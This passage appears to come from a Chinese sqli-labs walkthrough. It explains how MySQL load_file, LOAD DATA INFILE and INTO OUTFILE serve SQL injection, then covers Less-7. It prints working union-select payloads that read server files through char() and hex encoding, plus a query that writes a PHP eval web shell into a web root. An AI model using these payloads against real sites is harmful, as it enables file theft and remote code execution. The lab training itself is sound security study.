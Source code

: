 ## 0x07 Background-3

`Load_file(file_name)`:读取文件并返回该文件的内容作为一个字符串。

使用条件：

A、必须有权限读取并且文件必须完全可读  
and (select count(\*) from mysql.user)>0/\* 如果结果返回正常,说明具有读写权限。  
and (select count(\*) from mysql.user)>0/\* 返回错误，应该是管理员给数据库帐户降权

B、欲读取文件必须在服务器上

C、必须指定文件完整的路径

D、欲读取文件必须小于 max\_allowed\_packe

<a href="https://www.cnblogs.com/lcamry/p/5729087.html" target="_blank" rel="noreferrer noopener" rel="nofollow" >MySQL注入load_file常用路径</a>

范例1：`-1 union select 1,1,1,load_file(char(99,58,47,98,111,111,116,46,105,110,105))`  
char(99,58,47,98,111,111,116,46,105,110,105)就是“c:/boot.ini”的 ASCII 代码

范例2：`-1 union select 1,1,1,load_file(0x633a2f626f6f742e696e69)`  
c:/boot.ini的 16 进制是“0x633a2f626f6f742e696e69”

范例3：`-1 union select 1,1,1,load_file(c:\\boot.ini)`  
路径里的/用 \\代替

`LOAD DATA INFILE` 语句用于高速地从一个文本文件中读取行，并装入一个表中。文件名称必须为一个文字字符串。

范例：`load data infile '/tmp/t0.txt' ignore into table t0 character set gbk fields terminated by '\t'<br>lines terminated by '\n'`

将/tmp/t0.txt 导入到 t0 表中，`character set gbk` 是字符集设置为 gbk，`fields terminated by` 是每一项数据之间的分隔符，`lines terminated by` 是行的结尾符。  
当错误代码是 2 的时候的时候，文件不存在，错误代码为 13 的时候是没有权限，可以考虑/tmp 等文件夹。

`SELECT.....INTO OUTFILE 'file_name'`可以把被选择的行写入一个文件中。使用条件：1、必须拥有 FILE权限；2、file_name 不能是一个已经存在的文件。

第一种利用形式，直接将 select 内容导入到文件中：

`Select <?php @eval($_post["mima"])?> into outfile "c:\\phpnow\\htdocs\\test.php"`

第二种利用形式，修改文件结尾:

`Select version() Into outfile “c:\\phpnow\\htdocs\\test.php” LINES TERMINATED BY 0x16 进制文件`

## 0x08 Less7

标题是Dump into Outfile。需要利用文件导入的方式进行注入。需要提前在my.ini设置secure\_file\_priv。

`@@datadir` 读取数据库的路径，`@@basedir` 读取数据库安装路径id。跳回第一关获取。<figure class="wp-block-image size-full">

<img loading="lazy" width="932" height="103" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/08/图片-154.png" alt="" class="wp-image-2826" /> </figure> 

输入`url/?id=-1')) union select 1,2,'' into outfile "D:\phpStudy\WWW\sqli-labs\Less-7\cmd.txt"--%20`<figure class="wp-block-image size-full">

<img loading="lazy" width="491" height="108" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/08/图片-156.png" alt="" class="wp-image-2831" /> </figure> 
